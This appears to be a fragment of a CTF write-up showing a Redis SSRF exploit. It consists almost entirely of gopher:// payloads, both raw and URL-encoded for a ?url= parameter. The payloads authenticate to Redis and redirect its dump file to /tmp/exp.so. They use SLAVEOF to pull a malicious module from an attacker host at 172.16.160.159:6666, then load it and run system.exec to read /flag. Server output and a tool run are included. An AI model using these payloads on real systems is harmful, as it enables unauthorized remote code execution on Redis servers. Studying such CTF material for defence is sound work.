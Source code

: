 ```assembly
*1
$4
quit

gopher://0.0.0.0:6379/_%2A2%0D%0A%244%0D%0AAUTH%0D%0A%244%0D%0Aroot%0D%0A%2A4%0D%0A%246%0D%0ACONFIG%0D%0A%243%0D%0ASET%0D%0A%243%0D%0Adir%0D%0A%245%0D%0A/tmp/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%246%0D%0Aexp.so%0D%0A%2A3%0D%0A%247%0D%0ASLAVEOF%0D%0A%2414%0D%0A172.16.160.159%0D%0A%244%0D%0A6666%0D%0A%2A2%0D%0A%2411%0D%0Asystem.exec%0D%0A%2414%0D%0Acat%24%7BIFS%7D/flag%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A
```

`?url=gopher%3A%2F%2F0.0.0.0%3A6379%2F_%252A2%250D%250A%25244%250D%250AAUTH%250D%250A%25244%250D%250Aroot%250D%250A%252A4%250D%250A%25246%250D%250ACONFIG%250D%250A%25243%250D%250ASET%250D%250A%25243%250D%250Adir%250D%250A%25245%250D%250A%2Ftmp%2F%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25246%250D%250Aexp.so%250D%250A%252A3%250D%250A%25247%250D%250ASLAVEOF%250D%250A%252414%250D%250A172.16.160.159%250D%250A%25244%250D%250A6666%250D%250A%252A2%250D%250A%252411%250D%250Asystem.exec%250D%250A%252414%250D%250Acat%2524%257BIFS%257D%2Fflag%250D%250A%252A1%250D%250A%25244%250D%250Aquit`

得到

string(107) "+OK +OK +OK +OK -ERR unknown command `system.exec`, with args beginning with: `cat${IFS}/flag`, +OK "



```assembly
root@93b3ca8f2d45:~/redis-ssrf-master# python3 ssrf-redis.py
*2
$4
AUTH
$4
root
*3
$6
MODULE
$4
LOAD
$11
/tmp/exp.so
*2
$11
system.exec
$14
cat${IFS}/flag
*1
$4
quit

gopher://0.0.0.0:6379/_%2A2%0D%0A%244%0D%0AAUTH%0D%0A%244%0D%0Aroot%0D%0A%2A3%0D%0A%246%0D%0AMODULE%0D%0A%244%0D%0ALOAD%0D%0A%2411%0D%0A/tmp/exp.so%0D%0A%2A2%0D%0A%2411%0D%0Asystem.exec%0D%0A%2414%0D%0Acat%24%7BIFS%7D/flag%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A
```
